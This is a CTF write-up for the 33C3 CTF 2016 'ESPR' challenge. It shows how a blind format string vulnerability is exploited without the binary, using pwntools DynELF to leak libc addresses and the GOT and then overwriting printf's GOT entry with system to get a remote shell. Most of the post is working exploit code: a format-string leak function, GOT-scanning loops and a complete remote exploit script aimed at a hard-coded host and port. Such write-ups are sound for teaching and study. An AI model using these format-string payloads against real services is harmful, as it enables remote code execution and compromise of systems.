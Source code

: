 ```yaml
---
title: 33C3 CTF 2016 -- ESPR
layout: single
comments: true
share: true
related: true
author_profile: true
permalink: "/:title/"
date: 2016-12-29 22:52
tags:
- 33C3
- CTF
- Python
- Pwnable
- format_string
categories:
- write-ups
---
```


**Category:** pwn
**Points:** 150

<!-- more -->  

This time there's no binary or libc.so provided, only an image looks like this:
```

eat:                  sleep:
+-----------------+   +----------------+
| sub rsp, 0x100  |   | mov edi, 0x1   |
| mov rdi, rsp    |   | call _sleep    |
| call _gets      |   |                |
|                 |   |                |
+-----------------+   +----------------+
pwn:                  repeat:
+-----------------+   +----------------+
| mov rdi, rsp    |   |                |
| call _printf    |   | jmp eat        |
| add rsp, 0x100  |   |                |
|                 |   |                |
+-----------------+   +----------------+
```

Interesting...

So apparently the program has two vulnerabilities: **stack overflow** & **format string**. Since we can't actually exploit the stack overflow vulnerability (the program likely won't return because of the infinite loop), we'll have to focus on the format string vulnerability and exploit the service without having the binary file.

So how are we gonna do this? Fortunately, [pwntools](https://github.com/Gallopsled/pwntools) is here to rescue! **By using the amazing [DynELF](http://docs.pwntools.com/en/stable/dynelf.html) module, we're able to resolve & leak some address without the need for binary!** 

First we'll need a `leak` function to let pwntools able to leak data at an arbitrary address. Here we exploit the format string vulnerability to leak an arbitrary address: 
```python
def leak(addr):
    payload = "%7$s.AAA"+p64(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    resp = r.recvuntil(".AAA")
    ret = resp[:-4:] + "\x00"
    print "ret:", repr(ret)
    r.recvrepeat(0.2) # receive the rest of the string
    return ret
```
Then we need a pointer into the binary. I got the pointer by entering `%30$p`, which returned `0x40060d`. Now we can use the `DynELF` module to help us resolve some function addresses.

First we'll need to resolve the address of `printf` and `system`:
```python
d = DynELF(leak, 0x40060d)
system_addr = d.lookup('system', 'libc')
printf_addr = d.lookup('printf', 'libc')

log.success("printf_addr: "+hex(printf_addr))
log.success("system_addr: "+hex(system_addr))
```

It took a while because of `sleep(1)`, and pwntools will need a lot of addresses to resolve those functions.
```
[+] printf_addr: 0x7fb040a17550
[+] system_addr: 0x7fb040a066d0
```

OK so now we know the offset between `printf` and `system`. Next time we'll just have to leak `printf@got.plt`, calculate `system`'s address and use it to overwrite `printf`'s GOT entry, finally we'll be able to hijack `printf`'s GOT and call `system("sh")` by entering "sh".

But first we'll have to know the address of `printf@got.plt`. Luckily, not only can `DynELF` resolve function addresses, it can also resolve some useful addresses such as the pointer to the `.dynamic` section:
```python
d = DynELF(leak, 0x40060d)
dynamic_ptr = d.dynamic
```

Once we got the `.dynamic` section's address, we can use it to locate the `.got.plt` area:
```
Dynamic section at offset 0xe28 contains 24 entries:
  Tag        Type                         Name/Value
 0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
 0x000000000000000c (INIT)               0x400400
 0x000000000000000d (FINI)               0x400614
 0x0000000000000019 (INIT_ARRAY)         0x600e10
 0x000000000000001b (INIT_ARRAYSZ)       8 (bytes)
 0x000000000000001a (FINI_ARRAY)         0x600e18
 0x000000000000001c (FINI_ARRAYSZ)       8 (bytes)
 0x000000006ffffef5 (GNU_HASH)           0x400298
 0x0000000000000005 (STRTAB)             0x400330
 0x0000000000000006 (SYMTAB)             0x4002b8
 0x000000000000000a (STRSZ)              68 (bytes)
 0x000000000000000b (SYMENT)             24 (bytes)
 0x0000000000000015 (DEBUG)              0x0
 0x0000000000000003 (PLTGOT)             0x601000  <--- here
```
```python
cnt = 0
while True:
    addr = dynamic_ptr + 0x10*cnt
    ret = leak(addr)
    if ret == "\x03\x00": #TYPE PLTGOT
        addr += 8
        for i in xrange(8):
            ret = leak(addr+i)
            print "ret:", ret.encode('hex')
        break
    else:
        cnt += 1
```

Now we can find where `printf@got.plt` is, by leaking all the GOT entry and compare the low 12 bits of the function address (see if it ends with `550`):
```python
got = 0x601000
for i in xrange(8):
    addr = got + i*8
    ret = leak(addr)
    print "ret:", ret.encode('hex')
```

Finally, we can start exploiting the service:
```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "78.46.224.86"
PORT = 1337
# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

def leak(addr):
    payload = "%7$s.AAA"+p64(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    resp = r.recvuntil(".AAA")
    ret = resp[:-4:] + "\x00"
    print "ret:", repr(ret)
	r.recvrepeat(0.2)
    return ret
    
if __name__ == "__main__":

    r = remote(HOST, PORT)

    printf_got = 0x601018
    printf_addr = u64(leak(printf_got).ljust(8, "\x00"))
    system_addr = printf_addr - 0x10e80 # remote

    log.success("printf_addr: "+hex(printf_addr))
    log.success("system_addr: "+hex(system_addr))

    byte1 = system_addr & 0xff
    byte2 = (system_addr & 0xffff00) >> 8
    log.success("byte1: "+hex(byte1))
    log.success("byte2: "+hex(byte2))

    payload = "%" + str(byte1) + "c" + "%10$hhn."
    payload += "%" + str(byte2-byte1-1) + "c" + "%11$hn."
    payload = payload.ljust(32, "A")
    payload += p64(printf_got) + p64(printf_got+1)
    r.sendline(payload)
    r.sendline("sh\x00")
    r.interactive()
```

flag: `33C3_f1rst_tshirt_challenge?!`